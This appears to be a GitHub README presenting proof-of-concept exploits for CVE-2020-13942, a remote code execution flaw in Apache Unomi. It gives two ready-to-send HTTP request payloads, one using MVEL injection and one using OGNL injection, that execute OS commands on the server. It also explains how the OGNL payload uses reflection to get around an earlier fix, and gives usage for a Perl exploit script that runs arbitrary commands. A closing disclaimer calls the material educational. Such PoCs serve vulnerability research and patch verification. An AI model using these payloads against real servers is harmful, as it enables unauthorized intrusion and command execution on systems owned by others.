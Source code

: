# CVE-2020-13942

Original blog post about the vulnerability:
https://www.checkmarx.com/blog/apache-unomi-cve-2020-13942-rce-vulnerabilities-discovered/

There are two RCE vectors: through MVEL injection and through OGNL injection. Both vectors target different code though the payloads look relatively similar.
The previous CVE fix https://nvd.nist.gov/vuln/detail/CVE-2020-11975 tried to limit execution of OGNL expressions, but completely missed MVEL. The CVE-2020-13942 bypasses the fix made in 1.5.1.

Send the following HTTP requests using BurpSuite or curl to context.js\json exposed by Unomi server and get RCE. Change Host and Content-length according to your target URL and OS command.
Both POCs can get `HTTP/1.1 400 Header Folding` in response, which means `\r\n` are messed up in the payload, try copy-pasting it once more.

### 1) MVEL POC

#### HTTP request

```
POST /context.json HTTP/1.1
Host: localhost:8181
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Content-Length: 486

{
    "filters": [
        {
            "id": "boom",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"gnome-calculator\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "boom"
}
```

### 2) OGNL POC

OGNL POC bypassed the ClassLoader restriction introduced by 1.5.1 version. Using Java reflections API it's possible to create an object without triggering ClassLoader.loadClass method that restricts the evaluated OGNL expressions.

The payload OGNL expression breakdown:
1.	The first expression `#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")` creates a java.lang.Runtime Class object, where #this is the reference to the context object. 
2.	The second expression `#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]` gets the methods list of the Runtime class through reflections and chooses getRuntime method out of the list. The `{^ #this.name.equals(\"getRuntime\")}` part of the expression looks for a Method with the name getRuntime and returns a list of the Methods that match the condition; the first and the only Method of this list is getRuntime. 
3.	The third expression `#runtimeobject = #runtimemethod.invoke(null,null)` calls the getRuntime() method and obtains the Runtime object. 
4.	The fourth expression `(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0])` gets the methods of the Runtime class and retrieves Runtime.exec() with a single String argument out of the method list. 
5.	The final expression `#execmethod.invoke(#runtimeobject,\"gnome-calculator\")` calls Runtime.exec() with the specified argument.


#### HTTP request
```
POST /context.json HTTP/1.1
Host: localhost:8181
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Content-Length: 1068

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\" gnome-calculator\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"boom"
} 
```


### Use Apache_Unomi_Perl

Basic usage:

```
  ./apache_unomi.pl [options]

options:

./apache_unomi.pl [target:port] [command] [(method 1) - mevel| (method 2) - ognl]

[+]usage:

./apache_unomi.pl http://127.0.0.1:8181 whoami 1
 
```
### Disclaimer
All the information provided on this page is for educational purposes only. The information on this website should only be used to enhance the security for your computer systems and not for causing malicious or damaging attacks.

You should not misuse this information to gain unauthorized access into computer systems. Also be aware, performing hack attempts on computers that you do not own, without written permission from owners, is illegal.

I will not be responsible for any direct or indirect damage caused due to the usage of the information provided on this website.
